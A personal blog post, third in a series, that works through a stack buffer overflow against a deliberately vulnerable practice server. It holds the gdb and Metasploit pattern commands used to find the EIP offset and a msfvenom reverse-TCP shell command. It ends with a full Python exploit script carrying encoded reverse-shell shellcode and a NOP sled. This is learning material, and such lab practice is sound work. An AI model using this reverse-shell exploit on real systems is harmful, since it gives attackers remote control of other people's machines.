 ```yaml
---
layout: default
title: Learning binary exploitation — 3
---
```


Learning binary exploitation — 3
================================

The vulnerable code I used in this blog:

[Vulnerable-Server/exploit\_smart\_server.py at master · dennis95stumm/Vulnerable-Server](https://github.com/dennis95stumm/Vulnerable-Server/blob/master/exploit_smart_server.py)

Overflowing the buffer
======================

First, I used gdb to figure out which function was responsible for checking the input we provide. Looks like checkAuth is the function I was looking for.

![](/assets/images/learning-binary-exploitation-3/bin-exp-3-1.png)

To observe the state of the registers and the stack, I created a breakpoint right after strcmp instruction in checkAuth function. Then I created a buffer of length 5000 hoping that it would be sufficient to overflow the buffer.

```
msf-pattern\_create -l 5000
```
![](/assets/images/learning-binary-exploitation-3/bin-exp-3-2.png)
It was sufficient!

Notice the address at the bottom, that’s the EIP. After obtaining the EIP, I tried to find the exact offset required to overflow the buffer.

```
msf-pattern\_offset -l 5000 -q 0x63413962
```

*   _The offset was 58_

At this point I realized two things:

1.  Even if I send a normal input after setting a breakpoint, the contents of `secret_buffer`, which holds the key to validating our input, is revealed.
2.  If I had looked at the code of `checkAuth` function first, instead of being a skid and going straight into exploitation, I would’ve instantly found the key (secret\_buffer) and noticed another variable `auth_flag` which determines if the program should move forward or not.

![](/assets/images/learning-binary-exploitation-3/bin-exp-3-3.png)
LESSON LEARNED

Anyway, what’s happening here is, when we overflow the buffer it actually overwrites the auth\_flag too which is then returned by `checkAuth`function and is eventually checked if it’s true or not, so any value other than 0 will get us through.

Shellcode Injection
===================

Now I could perfectly overwrite EIP with `python -c 'print "A"*58+"BBBB"'`

![](/assets/images/learning-binary-exploitation-3/bin-exp-3-left.png)
EIP Overwritten

Now, I just had to find a unique address to inject the shellcode.

**_Note: Do_** `**unset env**` **_in gdb to remove any environment variables during the program run which may alter the memory addresses_**

Before finding a location for my shellcode, I had to generate one.

```
msfvenom -p linux/x86/shell\_reverse\_tcp -b "\\x00" LHOST=<listening-ip> LPORT=<listening-port> -f python -o reverse
```

Also, to make sure memory address don’t get messed up I used NOPs too. I struggled quite a bit to find a suitable memory address. Here’s how I did it:

1.  I just used `print pad+nopslide+test_payload`to find the address where “\\x43” starts
2.  Then used that address in place of $eip, hoping that eip will point to the location of my shellcode (test\_payload, in the previous step)
3.  Now, I tested `print pad+eip+nopslide+test_payload` and this time I noticed “\\x43” started from a different address, maybe the additional 4 bytes of $eip that I provided had somehow shifted the memory locations.
4.  So, I used the address I found in (3) in eip and redirected the output of exploit.py into the program and got a shell

P.S. I’m not sure if this is the right way to do this.

Here’s the exploit script that I used:

```
import structpad = "A"\*58  
eip = struct.pack("<I", 0xffffd1b2)   
buf =  b""  
buf += b"\\xd9\\xee\\xba\\x44\\x2f\\xab\\x19\\xd9\\x74\\x24\\xf4\\x5f\\x31"  
buf += b"\\xc9\\xb1\\x12\\x31\\x57\\x17\\x83\\xef\\xfc\\x03\\x13\\x3c\\x49"  
buf += b"\\xec\\xaa\\x99\\x7a\\xec\\x9f\\x5e\\xd6\\x99\\x1d\\xe8\\x39\\xed"  
buf += b"\\x47\\x27\\x39\\x9d\\xde\\x07\\x05\\x6f\\x60\\x2e\\x03\\x96\\x08"  
buf += b"\\x71\\x5b\\x50\\xcd\\x19\\x9e\\xa1\\xee\\xf0\\x17\\x40\\x40\\x64"  
buf += b"\\x78\\xd2\\xf3\\xda\\x7b\\x5d\\x12\\xd1\\xfc\\x0f\\xbc\\x84\\xd3"  
buf += b"\\xdc\\x54\\x31\\x03\\x0c\\xc6\\xa8\\xd2\\xb1\\x54\\x78\\x6c\\xd4"  
buf += b"\\xe8\\x75\\xa3\\x97"test\_payload = "C"\*95  
nopslide = "\\x90"\*100print pad+eip+nopslide+buf
```

Of course, I could’ve just used sockets to make things easier, but I was feeling a bit adventurous ¯\\\_(ツ)\_/¯

So I sent this payload…

![](/assets/images/learning-binary-exploitation-3/bin-exp-3-4.png)

...and I got the shell!

Thank you for reading.
